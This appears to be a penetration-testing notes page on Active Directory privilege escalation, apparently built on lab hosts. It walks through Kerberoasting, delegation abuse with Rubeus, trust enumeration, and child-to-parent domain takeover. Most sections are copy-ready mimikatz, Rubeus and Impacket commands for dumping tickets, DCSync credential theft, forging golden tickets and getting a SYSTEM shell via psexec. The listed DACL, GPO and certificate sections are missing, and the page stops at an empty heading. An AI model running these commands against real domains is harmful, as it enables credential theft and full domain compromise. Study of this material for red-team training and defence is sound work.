

# Domain Privilege Escalation

1. Kerberoasting
2. Kerberos Delegation
   * Unconstrained Delegation
   * Constrained Delegation `with Protocol Transition` &#x20;
   * Resource-based Constrained Delegation
3. Abuse DACL
   * `GenericAll`
   * `GenericWrite`
   * `WriteDACL`
   * `WriteOwner`
   * `AddMember`
   * `ForceChangePassword`
   * `Self`
4. Abuse GPO
5. Abuse Certificate
6. Abuse Domain Trusts
   * Cross Child to parent trust
   * Cross External forest trust

***

## Kerberoasting

* Kerberoasting is a technique that allows an attacker to steal the KRB\_TGS ticket, that is encrypted with RC4, to brute force application services hash to extract its password

**The SPN syntax has four elements**

<figure><figcaption></figcaption></figure>

#### Kerberoasting Attack Walkthrough

**Method 1: Powershell Script**

1. Step 1: SPN Discover (`Find-PotentiallyCrackableAccounts.ps1`)

```powershell
Import-Module .\Find-PotentiallyCrackableAccounts.ps1
Find-PotentiallyCrackableAccounts.ps1 -FullData -Verbose
```

<figure><figcaption></figcaption></figure>

2. **Step 2:** Extract & Dump TGS\_ticket & Obtain Hash (`Get-TGSCipher.ps1`)

```powershell
Import-Module .\Get-TGSCipher.ps1
Get-TGSCipher -SPN "WIN-S0V7KMTVLD2/SVC_SQLService.ignite.local:60111" -Format John
```

<figure><figcaption></figcaption></figure>

#### **Method 2: Mimikatz**

<figure><figcaption></figcaption></figure>

1. **Step 1:** SPN Discovery

```powershell
./mimikatz.exe
kerberos::list
```

<figure><figcaption></figcaption></figure>

2. **Step 2:** Dump TGS ticket

Run the export command for extracting the ticket named contains .kirbi extension

```
kerberos::list /export
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

3. **Step 3:** Convert the Kirbi to Hash & Brute Force Hash

```shellscript
kirbi2john raj.kirbi > kirbihash
```

<figure><figcaption></figcaption></figure>

#### **Method 3 :**&#x20;

**Step 1 :** fetch all the users from the network and filters out those with SPN enabled

```powershell
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
setspn -T research -Q */
```


Step 2 : request a Kerberos Ticket Granting Service (TGS) ticket for the specified Service Principal Name (SPN)

```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList “ops/research.SECURITY.local:1434”
```


**Step 3 :** Export Kerberos Tickets

```powershell
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -command '"kerberos::list /export"’
```


Step 4 : After exporting the tickets, you can display the name of the exported file

```
ls | select name
```


**Step 5 :** Use Tgsrepcrack to crack the password

```
python.exe .\kerberoast-Python3\tgsrepcrack.py .\10k-worst-pass.txt .\1-40a10000-student@ops~research.SECURITY.local~1434-RESEARCH.SECURITY.LOCAL.kirbi
```


***

## Kerberos Delegation

### Unconstrained Delegation

#### Lab Setup

**Computer Account Configuring Delegation** (`Trust this computer for delegation to any service`)

<figure><figcaption></figcaption></figure>

#### **Local Attack Method**

1. Starting Rubeus TGT Monitor

```shellscript
\Rubeus.exe monitor /interval:7 /targetuser:dc01$ /nowrap
```

<figure><figcaption></figcaption></figure>

2. Triggering Authentication via SpoolSample (MS-RPRN)

```shellscript
MS-RPRN.exe \\DC01.Domain.local \\compromise-machine.domain.local
```

<figure><figcaption></figcaption></figure>

3. inject TGT (remove space)

```shellscript
Rubeus.exe ptt /ticket:<Base64EncodedTicket>
```

<figure><figcaption></figcaption></figure>

***

## Abuse Domain Trusts

### Domain Trusts Overview <a href="#domain-trusts-overview" id="domain-trusts-overview"></a>

<figure><figcaption></figcaption></figure>

### Enumerating Trust Relationships <a href="#enumerating-trust-relationships" id="enumerating-trust-relationships"></a>

**Using Get-ADTrust**


```
Import-Module activedirectory
Get-ADTrust -Filter *
```


<figure><figcaption></figcaption></figure>

**Checking for Existing Trusts using Get-DomainTrust (powerview)**


```
Get-DomainTrust
```


<figure><figcaption></figcaption></figure>

**Using Get-DomainTrustMapping**

<figure><figcaption></figcaption></figure>


<mark style="color:$danger;">`LOGISTICS.INLANEFREIGHT.LOCAL`</mark> child from <mark style="color:$danger;">`INLANEFREIGHT.LOCAL`</mark> \
<mark style="color:$danger;">`FREIGHTLOGISTICS.LOCAL`</mark>  is FOREST\_TRANSITIVE from  <mark style="color:$danger;">`INLANEFREIGHT.LOCAL`</mark>


**Checking Users in the Child Domain using Get-DomainUser**


```powershell
Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName
```


***

## Attacking Domain Trusts - Child To  Parent Trusts  <a href="#attacking-domain-trusts-child-parent-trusts-from-windows" id="attacking-domain-trusts-child-parent-trusts-from-windows"></a>

### from Windows <a href="#attacking-domain-trusts-child-parent-trusts-from-windows" id="attacking-domain-trusts-child-parent-trusts-from-windows"></a>

#### perform attack with mimikatz

**Step 1 : Get KRBTGT hash for the child domain**


```
.\mimikatz
lsadump::dcsync /user:LOGISTICS\krbtgt
```


<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

**Step 2 : Get SID for the child domain (powerview.ps1)**


```
. .\powerview.ps1
Get-DomainSID
```


<figure><figcaption></figcaption></figure>

**Step 3 : Get SID of the Enterprise Admins group of the root domain.**


```
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```


<figure><figcaption></figcaption></figure>


* KRBTGT hash : `9d765b482771505cbe97411065964d5f`
* SID for the child domain : `S-1-5-21-2806153819-209893948-922872689`
* FQDN of the child domain : `LOGISTICS.INLANEFREIGHT.LOCAL`
* SID of the Enterprise Admins group of the root : `S-1-5-21-3842939050-3880317879-2865463114-519`
* name of a target user in the child domain : `hacker`


**Step 4 : Confirm No Access**

<figure><figcaption></figcaption></figure>

#### perform attack with mimikatz


```
.\mimikatz.exe
kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```


<figure><figcaption></figcaption></figure>

#### perform attack with Rubeus

Step 1 : **Creating a Golden Ticket using Rubeus**


```
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```


<figure><figcaption></figcaption></figure>

**Confirming the Ticket is in Memory Using klist**


```
klist
```


<figure><figcaption></figcaption></figure>

**Performing a DCSync Attack**


```
.\mimikatz.exe
lsadump::dcsync /user:INLANEFREIGHT\lab_adm
```


<figure><figcaption></figcaption></figure>

***

### from linux

**Step 1 : Performing DCSync with secretsdump**


```
impacket-secretsdump logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```


<figure><figcaption></figcaption></figure>

**Step 2 : Performing SID Brute Forcing using lookupsid.py**


```
impacket-lookupsid logistics.inlanefreight.local/htb-student_adm@172.16.5.240
```


<figure><figcaption></figcaption></figure>

**Step 3 : Grabbing the Domain SID & Attaching to Enterprise root  Admin's RID**


```
impacket-lookupsid logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```


<figure><figcaption></figcaption></figure>

**Step 4 : Constructing a Golden Ticket using ticketer.py**


```shellscript
impacket-ticketer -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```


<figure><figcaption></figcaption></figure>

**Step 5 : Setting the KRB5CCNAME Environment Variable**


```shellscript
export KRB5CCNAME=hacker.ccache 
```


<figure><figcaption></figcaption></figure>

**Step 6 : Getting a SYSTEM shell using Impacket's psexec.py**


```shellscript
impacket-psexec LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```


<figure><figcaption></figcaption></figure>

#### automate escalating from child to parent domain


```shellscript
impacket-raiseChild -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```


<figure><figcaption></figcaption></figure>

Dumps NTDS


```
impacket-secretsdump LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```


<figure><figcaption></figcaption></figure>

***

## Attacking Domain Trusts - Cross-Forest <a href="#attacking-domain-trusts-cross-forest-trust-abuse-from-windows" id="attacking-domain-trusts-cross-forest-trust-abuse-from-windows"></a>

### &#x20;from Windows <a href="#attacking-domain-trusts-cross-forest-trust-abuse-from-windows" id="attacking-domain-trusts-cross-forest-trust-abuse-from-windows"></a>
